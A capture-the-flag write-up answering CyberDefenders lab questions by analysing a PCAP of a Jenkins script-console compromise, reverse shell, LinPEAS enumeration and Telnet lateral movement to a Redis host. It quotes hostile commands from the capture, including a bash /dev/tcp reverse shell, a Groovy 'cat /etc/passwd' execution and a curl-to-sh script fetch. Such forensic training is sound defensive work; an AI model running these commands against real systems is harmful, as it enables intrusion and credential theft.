








# RediShell - Kinsing Lab - PCAP Analysis (CyberDefenders)

## Scenario
Before the ransomware deployment, the attackers established initial access through a misconfigured CI/CD server running in a Docker container within Wowza's development network.
Security monitoring detected unusual outbound connections from the container subnet to a suspicious external IP address.
A packet capture was initiated automatically but was terminated when the attacker discovered and killed the monitoring process.
Your task is to analyze this network traffic to understand how the attackers gained their initial foothold and moved laterally within the containerized environment.

## References
- https://cyberdefenders.org/blueteam-ctf-challenges/redishell-kinsing/

## Initial Access & Reconnaissance

### Q1 - Security monitoring flagged suspicious HTTP traffic targeting the container subnet. Identifying the first system that received malicious requests is essential for establishing the initial point of compromise. What is the IP address of the first compromised system?

I used the `http` filter and checked the first suspicious HTTP requests. 
The traffic shows requests coming from `185.220.101.50` and targeting `172.16.10.10`.


Since Q1 asks for the first compromised system, not the attacker, the answer is the destination host that received the malicious HTTP requests.



**Answer:** `172.16.10.10`

### Q2 - Identifying attacker IP is critical for threat intelligence and blocking future connections. What is the attacker's command and control (C2) IP address?

From the same HTTP view, Q2 can be answered by looking at the source of the malicious requests.
The suspicious requests are going from `185.220.101.50` to `172.16.10.10`.

Since Q1 is the compromised system, the destination is `172.16.10.10`.
So the other side of the suspicious HTTP activity, the source sending the exploit/test request, is the attacker/C2 IP.

**Answer:** `185.220.101.50`

### Q3 - What web application and version was exploited for initial access?

I stayed on the same HTTP stream because the exploit request was already visible there.
After following the stream, I checked the server response headers instead of trying to guess the application only from `/script`.


In the HTTP response, the server exposes: `X-Jenkins: 2.387.1`
There is also `X-Hudson: 1.395`, but that is just a legacy Jenkins-related header.

**Answer:** `Jenkins, 2.387.1`

### Q4 - Before fully exploiting a vulnerability, attackers often perform a proof-of-concept test to confirm code execution capabilities. What file did the attacker initially read to test the vulnerability? (Provide full path)

I kept the `http` filter and looked at the POST requests to `/script` in chronological order.


The POST before this one already showed a simple command execution test, with `whoami`.
Right after that, the attacker used another POST to the same `/script` endpoint.



In the form body, the `script` parameter contains: `println 'cat /etc/passwd'.execute().text`
So the file read during the initial proof-of-concept phase was:

**Answer:** `/etc/passwd`

### Q5 - Identifying this vulnerable endpoint helps understand the attack vector and informs remediation efforts. What is the URI path of the vulnerable endpoint exploited by the attacker?

I used the same suspicious POST request and checked the HTTP request details.
The packet clearly shows:`Request URI: /script`

Since Q5 asks for the URI path of the vulnerable endpoint exploited by the attacker, the answer is just the path, not the full host or the POST body.



**Answer:** `/script`

## Execution

### Q6 - After confirming code execution, the attacker established a reverse shell connection back to their C2 infrastructure. What port number did the attacker use for the initial reverse shell listener?

I first isolated the HTTP traffic between the attacker and the compromised host:
```text
ip.addr == 185.220.101.50 && ip.addr == 172.16.10.10 && http
```



Then I checked the POST requests to the Jenkins `/script` endpoint.
Inside the last of those requests, the attacker sent the reverse shell command:
```text
bash -i >& /dev/tcp/185.220.101.50/4444 0>&1
```



This already gives the listener port, because the compromised host is being instructed to connect back to `185.220.101.50` on port `4444`.

After that, I also confirmed it by looking at the actual TCP traffic between `172.16.10.10` and `185.220.101.50` with this filter:
```text
ip.dst == 185.220.101.50 && ip.src == 172.16.10.10 && tcp
```



There, the connection pattern also shows traffic going back to destination port `4444`.

**Answer:** `4444`

## Discovery

### Q7 - Once inside the compromised container, the attacker uploaded a well-known enumeration script to identify privilege escalation vectors. What privilege escalation enumeration script did the attacker download after gaining shell access?
I directly filtered the reverse shell traffic from the compromised host back to the attacker on port `4444`:
```text
ip.dst == 185.220.101.50 && ip.src == 172.16.10.10 && tcp.port == 4444
```
This made the shell traffic easier to isolate without adding unnecessary noise.


Then I followed the TCP stream and checked the attacker’s commands after shell access.

In the stream, the attacker is interacting as `jenkins@jenkins-web`.

After some basic checks and setup commands, the relevant part is the download attempt for:
```text
http://185.220.101.50:2345/linpeas.sh
```


There is also a later `curl` command pointing to the PEASS-ng GitHub release and piping `linpeas.sh` to `sh`.

**Answer:** `linpeas`

## Credential Access

### Q8 - What file did the attacker read to obtain lateral movement credentials? (Provide full path)

To answer this one, I did not need a complicated filter.

While scrolling the reverse shell stream, I had already noticed references to credentials, so I simply searched for:
```text
credentials
```
That immediately brought me to the relevant LinPEAS output.

The stream shows LinPEAS searching for interesting files and then printing this path:

```text
/var/jenkins_home/credentials.txt
```


In Wireshark it appears with ANSI color/control sequences mixed into the text, something like:

```text
/var/.[1;96m.[1;31mjenkins.[0m.[0m_home/credentials.txt
```
Those parts are not part of the real file path.

They are terminal color codes used by the script to color the output.

After removing the ANSI sequences, the actual path is:

```text
/var/jenkins_home/credentials.txt
```

**Answer:** `/var/jenkins_home/credentials.txt`

### Q9 - What username and password combination did the attacker use for authentication to the second system? (Format: username:password)

After finding the credentials file, I simply kept scrolling a bit lower in the same reverse shell stream.

At that point I did not use any extra filter.

The content was already readable enough, so I just slowed down and actually read what was printed in the terminal output.


The file clearly contained a section called Corporate Network Credentials, with Telnet credentials for another internal host:

```text
TELNET_USER=redis_user
TELNET_PASS=r3d1s_Us3r_P@ss!
TELNET_HOST=172.16.10.20
TELNET_PORT=23
```

Since the question asks for the username and password combination used to authenticate to the second system, the relevant values are the Telnet username and password.

**Answer:** `redis_user:r3d1s_Us3r_P@ss!`

## Lateral Movement

### Q10 - The attacker used a legacy protocol to connect to the second target system. What unencrypted protocol did the attacker use for lateral movement?

This question can be answered immediately from the credentials file.

The file already says that the attacker had Telnet credentials for the second internal host:

```text
TELNET_USER=redis_user
TELNET_PASS=r3d1s_Us3r_P@ss!
TELNET_HOST=172.16.10.20
TELNET_PORT=23
```

A “lateral movement protocol” just means the protocol used by the attacker to move from the first compromised system to another system inside the same environment.

In this case, the first compromised system was the Jenkins container.

Then the attacker used the harvested credentials to connect to the second container.

Since the credentials are explicitly for Telnet, and Telnet uses port `23`, the protocol used for lateral movement was: `Telnet`


**Answer:** `Telnet`

### Q11 - After successfully authenticating with harvested credentials, the attacker gained access to a second container in the environment. Identifying this system helps map the scope of the compromise. What is the IP address of the second compromised system?

The next answer is also in the same credentials file.

The file shows the Telnet target host:

```text
TELNET_HOST=172.16.10.20
``` 

Since Q11 asks for the IP address of the second compromised system, the answer is the Telnet host reached after the first Jenkins compromise.


**Answer:** `172.16.10.20`

### Q12 - The Telnet login banner and subsequent enumeration revealed the hostname and the version of the data storage service running on the second compromised container. This information is crucial for identifying potential vulnerabilities. What is the hostname of the second compromised container and the version of the vulnerable data storage service? (Format: hostname, version)

The hostname was already visible from the Telnet session / prompt and from the earlier credentials context as:

```text
redis-db.corp.local
```

For the version, I solved it by staying on the Telnet traffic for the second compromised host:

```text
ip.addr == 172.16.10.20 && tcp.port == 23
```

At first I tried the more natural searches.

Things like `redis-server`, `redis_version`, `INFO`, or version-related strings made sense, because normally Redis version information is often obtained through commands like `INFO` / `redis_version`, or `redis-server --version`.

But in this capture those searches did not give me a clean result.

So I made the search broader, but still tied to the Telnet stream of the second host:

```text
ip.addr == 172.16.10.20 && tcp.port == 23 && frame contains "server"
```



That finally brought me to the relevant LinPEAS output.

In the Telnet stream, LinPEAS prints:

```text
Redis server v=5.0.7
```


**Answer:** `redis-db.corp.local, 5.0.7`
